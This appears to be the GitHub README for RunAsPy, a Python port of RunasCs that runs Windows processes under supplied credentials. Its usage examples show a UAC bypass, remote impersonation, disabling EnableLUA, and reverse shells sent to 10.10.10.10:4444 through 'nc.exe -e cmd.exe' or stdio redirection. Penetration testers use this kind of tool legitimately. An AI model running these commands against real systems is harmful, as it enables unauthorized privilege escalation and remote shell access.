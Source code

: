 # RunAsPy

A python port of [RunAsCs](https://github.com/antonioCoco/RunasCs)

*RunasPy* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasPy* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``

## Requirements

----

Python >= 3.8

# Usage

----

## commandline

```console
usage: RunAs.py [-h] [-d [DOMAINNAME]] -u [USERNAME] -P [PASSWORD] -c [CMD ...] [-t [PROCESSTIMEOUT]]
                [-l [{2,3,4,5,8,9}]] [-f [CREATEPROCESSFUNCTION]] [-r [REMOTE]] [-p] [-b] [-i] [-v]

options:
  -h, --help            show this help message and exit
  -d [DOMAINNAME], --domain [DOMAINNAME]
  -u [USERNAME], --username [USERNAME]
  -P [PASSWORD], --password [PASSWORD]
  -c [CMD ...], --command [CMD ...]
  -t [PROCESSTIMEOUT], --timeout [PROCESSTIMEOUT]
  -l [{2,3,4,5,8,9}], --logon-type [{2,3,4,5,8,9}]
  -f [CREATEPROCESSFUNCTION], --function [CREATEPROCESSFUNCTION]
  -r [REMOTE], --remote [REMOTE]
  -p, --force-profile
  -b, --bypass-uac
  -i, --remote-impersonation
  -v, --verbose         increase verbosity
```

### Run a command as a local user

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all"
```

### Run a command as a domain user and logon type as NetworkCleartext (8)

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -d domain -l 8
```

### Run a background process as a local user,
    
```console
Runas.py -u user1 -P password1 -c "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
```

### Redirect stdin, stdout and stderr of the specified command to a remote host
   
```console
Runas.py -u user1 -P password1 -c cmd.exe -r 10.10.10.10:4444
```

### Run a command simulating the /netonly flag of runas.exe

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -l 9
```

### Run a command as an Administrator bypassing UAC
    
```console
Runas.py -u adm1 -P password1 -c "cmd /c whoami /priv" --bypass-uac
```

### Run a command as an Administrator through remote impersonation

```console
Runas.py -u adm1 -P password1 -c "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

## programmatic (python module)

```python
import RunAsPy
config = {"username": "foo", "password": "F00", "cmd": "whoami /priv", "verbose"=True, bypassUac=True}
output = RunAsPy.Runas(**config)
print(output)
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasPy*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasPy* won't wait for the end of the newly spawned process execution.

## Special Thanks

* [antonioCoco](https://github.com/antonioCoco) - for the RunAsCs project
* [natesubra](https://github.com/natesubra) - For the help with the UAC bypass
